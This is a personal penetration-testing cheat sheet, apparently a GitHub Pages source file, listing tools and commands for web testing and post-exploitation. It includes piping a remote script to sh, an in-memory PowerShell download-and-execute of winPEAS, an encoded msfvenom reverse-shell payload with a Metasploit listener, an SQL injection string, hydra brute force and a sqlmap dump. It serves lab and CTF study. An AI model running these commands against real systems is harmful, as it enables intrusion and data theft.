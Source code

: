 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

## Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


## Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


## Refrance links 
tbd

## Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

## Msfconsole
`sessions -i <session num>` - attach session   
`sessions -u <session num>` - upgrade to meterpreter

### Shells 
ex msfvenom reverse shell:  
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`
ex msfconsole listener:  
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`

### Meterpreter
`channel -i <session>` - attaches
`upload <file>` - uploads file

## SQL
`' or 1=1 -- -`  

### SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

## SSH
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


## Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 